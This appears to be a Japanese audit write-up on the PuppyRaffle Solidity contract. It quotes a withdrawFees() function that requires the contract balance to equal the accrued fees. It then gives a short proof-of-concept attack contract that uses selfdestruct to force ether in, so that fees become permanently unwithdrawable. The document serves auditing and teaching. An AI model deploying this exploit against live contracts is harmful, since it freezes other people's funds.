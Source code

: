 ### 脆弱性のあるコード

#### **問題のある実装**
```solidity
// src/PuppyRaffle.sol:199
function withdrawFees() external {
    // @audit mishandling ETH - selfdestruct攻撃で破綻
    require(address(this).balance == uint256(totalFees), 
            "PuppyRaffle: There are currently players active!");
    
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```

### selfdestruct攻撃の仕組み

#### **攻撃コントラクトの実装**
```solidity
contract AttackPuppyRaffle {
    constructor(address target) payable {
        // 1 ETHでデプロイし、即座に強制送金実行
        selfdestruct(payable(target));
    }
}

// 使用例:
// new AttackPuppyRaffle{value: 1 ether}(address(puppyRaffle));
```

#### **攻撃の実行手順**
```solidity
// BEFORE 攻撃前の正常状態
address(puppyRaffle).balance = 10 ether    // ラッフル参加費等
totalFees = 2 ether                        // 蓄積された手数料
// ✅ 10 ether != 2 ether (ラッフル進行中なので正常)

// ATTACK selfdestruct攻撃の実行
AttackPuppyRaffle attack = new AttackPuppyRaffle{value: 1 ether}(address(puppyRaffle));
// 1 ETHが強制的にPuppyRaffleに送金される

// AFTER 攻撃後の状態
address(puppyRaffle).balance = 11 ether    // 10 + 1 (強制送金)
totalFees = 2 ether                        // 変更なし
// ❌ 11 ether != 2 ether (会計システム破綻)
```

#### **攻撃の実際の影響**
```solidity
// ラッフル終了後、通常なら以下の状態になるはず:
// - players配列がクリア
// - address(this).balance == totalFees が成立
// - withdrawFees()が正常動作

// しかし攻撃後:
function withdrawFees() external {
    require(address(this).balance == uint256(totalFees), "..."); 
    // ❌ 3 ether != 2 ether (攻撃による1 ETH余剰)
    // → 永続的にrevert
}

// 結果: プロトコルの手数料が永続的に引き出し不能
```